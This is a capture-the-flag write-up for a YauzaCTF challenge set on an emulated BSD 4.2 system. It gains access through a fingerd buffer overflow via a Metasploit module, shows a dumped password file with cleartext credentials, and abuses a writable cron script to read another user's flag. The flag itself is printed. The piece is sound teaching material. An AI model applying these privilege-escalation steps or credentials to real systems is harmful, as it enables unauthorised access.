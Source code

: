```yaml
---
description: Morris Worm - fingerd Stack Buffer Overflow and Cron Job misconfiguration
---
```


# Back in 1986 - User

## Description

tcp://tasks.yauzactf.com:79

Falling asleep on a strange bus in summer, young CTF lover Vasya wakes up in 1986... without money and documents, but with the valuable information about the future and the Kali Linux VM on his laptop. Now he works for KGB and his task is to hack into networks of ""Strategic Defense Initiative Organization"" and ultimately change the history of the USSR. Can he deal with old UNIX systems possessing all the knowledge of modern Linux security and binary exploitation?

## Solution

### Foothold

We're only given port 79. With some initial testing, we can confirm that this is the Finger service.

There are a lot of old exploits for this service, and based on the challenge description, this instance is probably vulnerable to one of those old exploits. Furthermore, the name of the root user is "Charlie Root", which is only seen in BSD 4.2, which is the version vulnerable to a [remote buffer overflow](https://www.exploit-db.com/exploits/19039).

```
➜  ~ finger root@tasks.yauzactf.com
[tasks.yauzactf.com]
Login name: root      			In real life: Charlie Root
Directory: /                        	Shell: /bin/csh
Never logged in.
No Plan.
```

Luckily, there is a Metasploit module for this exploit, which was used by the Morris Worm back in the 1980s.

![](<../../.gitbook/assets/Screenshot 2021-08-30 at 3.55.33 PM.png>)

### Sam User

Once we're in, we notice under `/usr/guest` that there are three users: `sam`, `mckusick` and `karels` (user directories used to be in `/usr` before the `/home` directory was used). We could dump the `/etc/passwd` file and crack the hashes (password shadowing was not yet a thing on BSD 4.2):

```
root:NO PASSWORD:0:10:Charlie &:/:/bin/csh
toor:NO PASSWORD:0:10:Bourne-again Superuser:/:
operator:NO PASSWORD:2:28:System &:/usr/guest/operator:/bin/csh
uucp:NO PASSWORD:66:1:UNIX-to-UNIX Copy:/usr/spool/uucppublic:/usr/lib/uucp/uucico
sam:raygun:7:10:& Leffler:/usr/guest/sam:/bin/csh
wnj:wnj12345:8:10:Bill Joy:/usr/guest/wnj:/bin/csh
mckusick:foobar:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:dmac1:10:31:Dennis Ritchie:/usr/guest/dmr:
shannon:hacker:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:...hello:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
ralph:whocares:16:31:& Campbell:/usr/guest/ralph:/bin/csh
eric:ithildin:22:31:& Allman:/usr/guest/eric:/usr/new/csh
ghg:biteme:32:31:George Goble:/usr/guest/ghg:/bin/csh
miriam:lancelot:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:heartbre:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
tef:fatcat:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:noexit:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:fun:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:haring:42:10:& McKie:/usr/guest/jim:/bin/csh
falcon:joshua:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames
```

Using the `sam:raygun` credentials, we can `su` to the `sam` user.

### Karels User

If we look at the `crontab.local` file, we see that a Cron job is run as the `karels` user every minute.

```
cat /usr/lib/crontab.local
* * * * * karels /usr/guest/sam/cronwatch.sh
```

The `cronwatch.sh` file is in the `sam` user's directory, so we can control the commands that are run.

```
echo "cp /usr/guest/karels/user_flag.txt /tmp; chmod a=r /tmp/user_flag.txt" > cronwatch.sh
```

After a minute, we are able to read the `user_flag.txt` file.

```
cat /tmp/user_flag.txt
YauzaCTF{l1k3_gh0st_1n_th3_w1r3s}
```
